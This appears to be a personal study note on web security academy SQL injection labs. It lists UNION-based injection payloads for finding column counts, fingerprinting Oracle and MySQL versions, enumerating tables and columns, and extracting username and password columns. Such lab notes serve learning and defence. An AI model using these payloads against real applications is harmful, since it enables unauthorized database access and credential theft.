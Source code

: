 Now to find a certain string from the database using UNION SQL query and output we first need to find the total number of tables using `NULL` and then we find which field has SQL Injection and then we use `SUBSTRING` to retrieve the string like so:

```mysql
' UNION SELECT NULL,'t2opRm',NULL--
```

### Lab: Examining the database
**SQL injection attack, querying the database type and version on `Oracle`**
On Oracle databases, every `SELECT` statement must specify a table to select `FROM`. If your `UNION SELECT` attack does not query from a table, you will still need to include the `FROM` keyword followed by a valid table name.

```sql
' ORDER BY 2--
' UNION SELECT 'a',NULL FROM dual--
' UNION SELECT NULL,'b' FROM dual--
' UNION SELECT 'a','b' FROM dual--
' UNION SELECT NULL,banner FROM v$version--
' UNION SELECT banner,NULL FROM v$version--
```

**SQL injection attack, querying the database type and version on `MySQL and Microsoft`**

```sql
'+UNION+SELECT+@@version,+NULL-- -
```

**SQL injection attack, listing the database contents on `non-Oracle` databases**

```sql
' UNION SELECT 'a','b'--
' UNION SELECT table_name, NULL FROM information_schema.tables--
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_omtxik'--
' UNION SELECT username_llejoc,password_jyahrx FROM users_omtxik--
```

![[file-20250504200626167.png]]
![[file-20250504201208507.png]]
![[file-20250504202146969.png]]

**SQL injection attack, listing the database contents on `Oracle`**
[Database Reference: ALL_TABLES](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)
[Database Reference: ALL_TAB_COLUMNS](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TAB_COLUMNS.html)
```sql
' UNION SELECT 'a','b' FROM dual--
' UNION SELECT owner,table_name FROM all_tables--
' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_LBAQSE'--
' UNION SELECT COLUMN_NAME,NULL FROM all_tab_columns WHERE table_name = 'USERS_LBAQSE'--
' UNION SELECT USERNAME_XOSEQK,PASSWORD_RRBRZM FROM USERS_LBAQSE--
```
